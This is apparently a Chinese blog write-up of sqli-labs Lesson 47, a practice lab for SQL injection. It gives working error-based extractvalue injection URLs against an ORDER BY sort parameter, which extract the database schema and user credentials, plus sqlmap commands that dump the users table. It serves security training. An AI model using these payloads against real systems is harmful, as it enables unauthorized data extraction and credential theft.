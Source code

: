 ```yaml
---
title: sqli-labs-lession 47 GET基于错误-字符型-OrderBy注入
date: 2018-11-05 21:10:11
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs-lession 47 GET基于错误-字符型-OrderBy注入

---

## 登录界面

![001](/img/sql/Lesson-47/001.png)

## 分析

desc或者asc判断闭合类型,发现为字符型。尝试单引号闭合成功。

## 报错注入

`http://10.60.250.239/sql/Less-47/?sort=1' and extractvalue(null,concat(0x7e,database(),0x7e))%23`

![002](/img/sql/Lesson-47/002.png)

`http://10.60.250.239/sql/Less-47/?sort=1' and extractvalue(null,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='security'),0x7e))%23`

![003](/img/sql/Lesson-47/003.png)

`http://10.60.250.239/sql/Less-47/?sort=1' and extractvalue(null,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),0x7e))%23`

![004](/img/sql/Lesson-47/004.png)

`http://10.60.250.239/sql/Less-47/?sort=1' and extractvalue(null,concat(0x7e,(select concat(username,0x7e,password)from(security.users)limit 0,1),0x7e))%23`

![005](/img/sql/Lesson-47/005.png)



## SQLMAP

`sqlmap -u http://10.60.250.239/sql/Less-47/?sort=1 --dbms mysql --technique E --threads 20 --level 2 --risk 2`

![006](/img/sql/Lesson-47/006.png)

![007](/img/sql/Lesson-47/007.png)

`sqlmap -u http://10.60.250.239/sql/Less-47/?sort=1 --dbms mysql --technique E --threads 20 -D security -T users --columns --dump`

直接上结果

![008](/img/sql/Lesson-47/008.png)